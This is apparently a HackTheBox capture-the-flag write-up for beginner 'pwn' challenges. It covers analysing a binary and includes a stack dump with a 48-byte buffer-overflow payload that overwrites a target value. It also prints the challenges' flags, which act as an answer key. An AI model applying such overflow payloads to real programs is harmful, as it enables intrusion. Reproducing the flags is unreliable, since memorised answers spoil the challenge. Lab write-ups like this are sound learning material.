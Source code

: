 # PWN

## Initialise Connection

Nothing to write about - just run `nc ip port`.
> HTB{g3t_r34dy_f0r_s0m3_pwn}

## Questionnaire

Using `file gs` see that the file is 64-bit, dynamically linked, not stripped & with `checksec` - NX enabled

```text
What is the name of the custom function that gets called inside `main()`? (e.g. vulnerable_function())
`vuln()`
What is the size of the 'buffer' (in hex or decimal)?
`0x20`
Which custom function is never called? (e.g. vuln())
`gg()`
What is the name of the standard function that could trigger a Buffer Overflow? (e.g. fprintf())
`fgets`
Insert 30, then 39, then 40 'A's in the program and see the output.
After how many bytes a Segmentation Fault occurs (in hex or decimal)?
40
(using printf 'A%.0s' {1..30} | ./test)
What is the address of 'gg()' in hex? (e.g. 0x401337)
```

To answer the last question use `objdump -d ./test` and find `0000000000401176 <gg>:`
I initially entered it with trailing zeroes and without 0x prefix and it wasn't accepted - had to change the answer to `0x401176`.

> HTB{th30ry_bef0r3_4cti0n}

## Getting Started

Run ./gs:

```text
      [Addr]       |      [Value]
-------------------+-------------------
0x00007fffffffe090 | 0x4242424241414141 <- Start of buffer
0x00007fffffffe098 | 0x0000000000000000
0x00007fffffffe0a0 | 0x0000000000000000
0x00007fffffffe0a8 | 0x0000000000000000
0x00007fffffffe0b0 | 0x6969696969696969 <- Dummy value for alignment
0x00007fffffffe0b8 | 0x00000000deadbeef <- Target to change
0x00007fffffffe0c0 | 0x0000555555555800 <- Saved rbp
0x00007fffffffe0c8 | 0x00007ffff7a03c87 <- Saved return address
0x00007fffffffe0d0 | 0x0000000000000001
0x00007fffffffe0d8 | 0x00007fffffffe1a8

Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.
```

0x00007fffffffe0c0 - 0x00007fffffffe090 = 48
Modify wrapper.py setting `payload = b'A' * 48`, run and get the flag.

> HTB{b0f_s33m5_3z_r1ght?}
